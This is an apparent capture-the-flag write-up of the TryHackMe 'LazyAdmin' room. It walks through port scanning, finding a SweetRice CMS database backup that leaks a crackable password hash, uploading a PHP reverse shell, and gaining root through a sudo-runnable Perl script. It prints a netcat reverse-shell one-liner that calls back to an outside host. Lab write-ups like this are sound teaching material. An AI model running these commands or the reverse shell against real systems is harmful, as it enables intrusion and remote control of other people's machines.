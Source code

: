 ```yaml
---

title: lazyadmin

difficulty: easy

date: "2023-05-17"

author: MatDef

  

---
```


# Information Gathering

  

### Nmapscan  

```bash
nmap 10.10.203.28 -sC -sV | tee nmap.log
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 14:21 EDT
Nmap scan report for 10.10.118.199
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds

```


### Enumeration

### Nikito

```bash
nikto -h http://10.10.203.28    

```
->nothing really interesting
### gobuster
```shell
gobuster dir -u http://10.10.203.28 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```
Found:
  `/content`
-> sweetrice CMS
```shell
searchsploit sweetrice
```
->SweetRice 1.5.1- Backup disclosure on '\http://10.10.203.28/content/inc/mysql_backup/'
-> SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution 
## Exploitation

mysqlbackup has manager password:
`manager:42f749ade7f9e195bf475f37a44cafcb`
crackstation:
`manager:Password123`

Cross-Site Request Forgery/PHP Code Execution
Able to put php code in Ads File
On `http://10.10.63.34/content/as/?type=ad&mode=save` and with manager credentials able to upload php file.
Created Pentestmonkey - php-reverse-shell with https://www.revshells.com/ and added to payload.

Got Access and user flag on `~/home/itguy`

# Privilege Escaltion
`sudo -l`
```shell
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
-> /home/itguy/backup.pl` runnable as without password`
```shell
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
copy.sh

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
-> reverseshell or just `echo "/bin/sh" > /etc/copy.sh`
Got Root Flag


  
  

---

  

# References

  

1. https://tryhackme.com/room/lazyadmin

  

<br>

  

___─ Written by MatDef ─___